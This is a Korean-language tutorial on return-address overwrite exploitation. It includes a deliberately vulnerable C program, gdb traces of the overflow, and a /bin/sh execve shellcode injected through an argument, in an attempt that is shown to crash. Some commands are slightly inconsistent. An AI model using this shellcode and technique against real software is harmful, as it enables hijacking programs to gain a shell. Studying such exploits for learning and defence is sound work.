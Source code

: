 # Return Address Overwrite
* RET Overwrite Exploitation : 리턴 주소를 덮어 실행 흐름을 조작해 공격자가 원하는 코드를 실행하는 방법
``` C
//example1.c
// gcc -o example1 example1.c -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char *src) {
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char *argv[], char *environ[]) {
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
example1.c에서는 프로그램의 argv[1]을 vuln 함수의 인자로 전달한다.   
vuln 함수에서는 src 버퍼를 buf 버퍼에 strcpy 함수를 이용해 복사한다.
strcpy 함수는 피복사 버퍼에 대한 길이 검증이 없이 때문에, 프로그램의 첫 번째 인자에 buf 배열의 크기보다 긴 문자열을 넣으면
스택 버퍼 오버플로우가 발생한다.
vuln함수의 메모리 구조는 아래와 같다.   
![image](https://user-images.githubusercontent.com/59531805/79189586-13f36d00-7e5d-11ea-89e2-2159296ec38a.png)

```
(gdb) p vuln
$1 = {<text variable, no debug info>} 0x804843b <vuln>
(gdb) b*0x804843b
Breakpoint 1 at 0x804843b
(gdb) r aaaabbbbccccdddd
Starting program: ~/example1 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll
Breakpoint 1, 0x0804843b in vuln ()
(gdb) x/2wx $esp
0xffffd520:	0x08048494	0xffffd74a
(gdb) x/i 0x08048494
   0x8048494 <main+30>:	add    $0x4,%esp
(gdb) x/s 0xffffd74a
0xffffd74a:	"aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll"
(gdb) 
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   0x08048441 <+6>:	mov    ecx,0x0
   0x08048446 <+11>:	mov    eax,0x20
   0x0804844b <+16>:	and    eax,0xfffffffc
   0x0804844e <+19>:	mov    edx,eax
   0x08048450 <+21>:	mov    eax,0x0
   0x08048455 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048459 <+30>:	add    eax,0x4
   0x0804845c <+33>:	cmp    eax,edx
   0x0804845e <+35>:	jb     0x8048455 <vuln+26>
   0x08048460 <+37>:	push   DWORD PTR [ebp+0x8]
   0x08048463 <+40>:	lea    eax,[ebp-0x20]
   0x08048466 <+43>:	push   eax
   0x08048467 <+44>:	call   0x8048300 <strcpy@plt>
   0x0804846c <+49>:	add    esp,0x8
   0x0804846f <+52>:	mov    eax,0x0
   0x08048474 <+57>:	leave  
   0x08048475 <+58>:	ret  
End of assembler dump.
(gdb) 
```
breakpoint에서의 스택 메모리를 보면, 첫 4바이트는 vuln 함수의 리턴 주소이고 다음 4바이트는 vuln 함수의 인자인 argv[1]의 주소임을 알 수 있다.
strcpy 함수가 실행되기 직전에 breakpoint를 설정해 인자들을 살펴보자. 스택을 살펴보면 첫 번째 인자인 buf 주소와 두 번째 인자인 argv[1]의 주소가 저장되장되어 있는 것을 볼 수 있다.
```
(gdb) x/20i vuln
=> 0x804843b <vuln>:	push   ebp
   ...
   0x8048467 <vuln+44>:	call   0x8048300 <strcpy@plt>
   ...
(gdb) b *0x8048467
Breakpoint 2 at 0x8048467
(gdb) c
Continuing.
Breakpoint 2, 0x08048467 in vuln ()
(gdb) x/2wx $esp
0xffffd4f4:	0xffffd4fc	0xffffd74a
```
strcpy 함수를 실행해보자. strcpy 함수의 첫 번째 인자인 buf(0xffffd4fc)에 argv[1]의 문자열이 복사된 것을 볼 수 있다.
argv[1]에 buf의 길이인 32바이트보다 긴 문자열을 주었기 때문에 vuln의 리턴주소가 저장된 0xffffd520(buf[32]+SFP[4]+RET[4])너머까지
argv[1] 문자열이 복사된 것을 확인할 수 있다.
```
(gdb) ni
0x0804846c in vuln ()
(gdb) x/20wx 0xffffd4fc
0xffffd4fc:	0x61616161	0x62626262	0x63636363	0x64646464
0xffffd50c:	0x65656565	0x66666666	0x67676767	0x68686868
0xffffd51c:	0x69696969	0x6a6a6a6a	0x6b6b6b6b	0x6c6c6c6c
0xffffd52c:	0xf7e1b600	0x00000002	0xffffd5c4	0xffffd5d0
0xffffd53c:	0x00000000	0x00000000	0x00000000	0xf7fb5000
(gdb) 
```
위와 같이 실행이 되면 RET가 0x6a6a6a6a로 바뀌었다.
공격자가 /bin/sh/ 혹은 셸 바이너리를 실행하는 기계어 코드를 실행한다면, 셸에서 제공하는 여러 명령어들을 실행할 수 있다.
리눅스에서는 바이너리를 실행시키기 위해서 execve 시스템 콜을 사용한다.
```
execve syscall
syscall number(eax register) - 0xb(11)
1st argument(ebx register) – pathname
2nd argument(ecx register) – argv[]
3rd argument(edx register) – envp[]
```
pathname에는 실행시킬 바이너리의 경로, argv는 프로그램의 인자 포인터 배열, envp에는 프로그램의 환경 변수 포인터 배열이 요구된다.
단순히 /bin/sh 바이너리를 실행시키는 것이 목적이기 떄무에 sys_execve("/bin/sh"주소, NULL, NULL) 형태의 execve 시스템 콜을 호출하면 된다.
리턴 주소가 저장된 스택 메모리를 덮기까지 남은 36바이트(buf[32]+SFP[4])의 위치에 셸코드를 위치시키고, 리턴 주소를 저장된 셸코드 주소로 바꾸는 공격 코드를 만들어보자.      
![image](https://user-images.githubusercontent.com/59531805/79190502-7483a980-7e5f-11ea-856e-4d06475a4a29.png)  
셸코드의 길이는 23바이트이므로 공격코드는 다음과 같이 구성된다.
```
셸코드 + 임의의 13바이트 + 0xffffd4fc(strcpy 함수의 첫 번째 인자인 buf의 주소)
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "\x90”*13 + “\xfc\xd4\xff\xff”
```
```
$ ./example1 python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*13+"\xfc\xd4\xff\xff"'
[1]    88636 segmentation fault (core dumped)  ./example1 
$ 
```
셸을 획득하지 못하고 프로그램이 비정상 종료되었다. 스택의 셸코드의 주소가 실행을 하면서 바뀌었기 때문이다.
정확성을 높이기 위해 NOP을 사용해야 한다.

